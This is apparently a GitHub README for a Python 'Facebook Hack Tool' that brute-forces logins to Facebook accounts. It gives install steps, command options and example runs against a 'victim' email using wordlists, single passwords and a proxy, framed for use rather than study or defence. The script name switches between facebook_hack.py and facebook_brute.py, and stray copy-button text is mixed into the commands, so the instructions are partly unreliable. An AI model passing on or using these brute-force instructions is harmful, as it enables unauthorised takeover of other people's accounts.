 # facebook
repo for facebook
Facebook Hack Tool
This tool is designed to perform brute-force attacks on Facebook accounts. It allows you to specify a target email or Facebook ID, along with a wordlist or a single password, to attempt to log in to the target account.

Prerequisites
Before using this tool, ensure you have the following installed:

Python (2.7 or later)
Requests module (pip install requests)
Mechanize module (pip install mechanize)
Usage
To use the tool, follow these steps:

Clone the repository:git clone https://github.com/brainwasiihack/facebook-hack-.py.git cd facebook-hack-tool
Run the script:
python facebook_hack.py [OPTIONS...]

Options:

-t <target email> or <FACEBOOK ID>: Specify the target email or Facebook ID.
-w <wordlist Path>: Specify the path to the wordlist file.
-s <single password>: Specify a single password to check.
-p <Proxy IP:PORT>: Specify an HTTP/S proxy (optional).
-g <TARGET Facebook Profile URL>: Specify the target Facebook profile URL to get their ID.
-u/--update: Update the Facebook Hack tool.
Examples
Here are some examples of how to use the tool:

Brute-force attack using a wordlist:
python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt

Brute-force attack using a single password:
python facebook_brute.py -t victim@gmail.com -s 1234567

arduino Copy code

Brute-force attack using a proxy:
python facebook_hack.py -t victim@gmail.com -w /path/to/wordlist.txt -p 144.217.101.245:3129

bash Copy code

Update
To update the Facebook Hack tool, run the following command:

python facebook_brute.py -u

csharp Copy code
